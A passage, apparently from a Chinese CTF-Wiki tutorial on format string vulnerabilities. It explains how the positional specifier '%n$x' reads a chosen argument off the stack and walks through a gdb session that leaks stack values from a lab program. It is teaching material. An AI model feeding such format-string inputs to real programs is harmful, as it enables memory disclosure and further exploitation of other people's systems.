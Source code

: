 **需要注意的是，我们上面给出的方法，都是依次获得栈中的每个参数，我们有没有办法直接获取栈中被视为第n+1个参数的值呢**？肯定是可以的啦。方法如下

```text
%n$x
```

利用如下的字符串，我们就可以获取到对应的第n+1个参数的数值。为什么这里要说是对应第n+1个参数呢？这是因为格式化参数里面的n指的是该格式化字符串对应的第n个输出参数，那相对于输出函数来说，就是第n+1个参数了。

这里我们再次以gdb调试一下。

```shell
➜  leakmemory git:(master) ✗ gdb leakmemory
gef➤  b printf
Breakpoint 1 at 0x8048330
gef➤  r
Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory 
%3$x

Breakpoint 1, __printf (format=0x8048563 "%08x.%08x.%08x.%s\n") at printf.c:28
28	printf.c: 没有那个文件或目录.

─────────────────────────────────────────────────[ code:i386 ]────
   0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
   0xf7e4466d                  nop    
   0xf7e4466e                  xchg   ax, ax
 → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret    
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret    
─────────────────────────────────────────────────────[ stack ]────
['0xffffccec', 'l8']
8
0xffffccec│+0x00: 0x080484bf  →  <main+84> add esp, 0x20	 ← $esp
0xffffccf0│+0x04: 0x08048563  →  "%08x.%08x.%08x.%s"
0xffffccf4│+0x08: 0x00000001
0xffffccf8│+0x0c: 0x22222222
0xffffccfc│+0x10: 0xffffffff
0xffffcd00│+0x14: 0xffffcd10  →  "%3$x"
0xffffcd04│+0x18: 0xffffcd10  →  "%3$x"
0xffffcd08│+0x1c: 0x000000c2
gef➤  c
Continuing.
00000001.22222222.ffffffff.%3$x

Breakpoint 1, __printf (format=0xffffcd10 "%3$x") at printf.c:28
28	in printf.c
─────────────────────────────────────────────────────[ code:i386 ]────
   0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
   0xf7e4466d                  nop    
   0xf7e4466e                  xchg   ax, ax
 → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret    
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret    
─────────────────────────────────────────────────────[ stack ]────
['0xffffccfc', 'l8']
8
0xffffccfc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10	 ← $esp
0xffffcd00│+0x04: 0xffffcd10  →  "%3$x"
0xffffcd04│+0x08: 0xffffcd10  →  "%3$x"
0xffffcd08│+0x0c: 0x000000c2
0xffffcd0c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
0xffffcd10│+0x14: "%3$x"	 ← $eax
```